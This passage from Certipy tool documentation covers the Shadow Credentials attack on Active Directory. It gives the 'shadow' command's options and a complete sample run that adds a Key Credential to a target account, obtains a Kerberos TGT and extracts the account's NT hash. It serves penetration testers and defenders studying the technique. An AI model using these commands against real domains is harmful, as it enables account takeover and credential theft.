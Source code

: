 ```
                        Account to target. If omitted, the user specified in the target will be used
  -device-id DEVICE_ID  Device ID of the Key Credential Link
  -debug                Turn debug output on

output options:
  -out output file name

connection options:
  -scheme ldap scheme
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name and you cannot resolve it
  -ns nameserver        Nameserver for DNS resolution
  -dns-tcp              Use TCP instead of UDP for DNS queries
  -timeout seconds      Timeout for connections

authentication options:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              Don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
```

In short, the Shadow Credentials attack is performed by adding a new "Key Credential" to the target account. The Key Credential can then be used with the PKINIT Kerberos extension for authentication.

Certipy's `shadow` command has an `auto` action, which will add a new Key Credential to the target account, authenticate with the Key Credential to retrieve the NT hash and a TGT for the target, and finally restore the old Key Credential attribute.

```bash
$ certipy shadow auto 'corp.local/john:Passw0rd!@dc.corp.local' -account 'johnpc'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Targeting user 'johnpc$'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '40d662ce-1112-042f-43cc-d14dc981c671'
[*] Adding Key Credential with device ID '40d662ce-1112-042f-43cc-d14dc981c671' to the Key Credentials for 'johnpc$'
[*] Successfully added Key Credential with device ID '40d662ce-1112-042f-43cc-d14dc981c671' to the Key Credentials for 'johnpc$'
[*] Authenticating as 'johnpc$' with the certificate
[*] Using principal: johnpc$@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'johnpc.ccache'
[*] Trying to retrieve NT hash for 'johnpc$'
[*] Restoring the old Key Credentials for 'johnpc$'
[*] Successfully restored the old Key Credentials for 'johnpc$'
[*] NT hash for 'johnpc$': fc525c9683e8fe067095ba2ddc971889
```
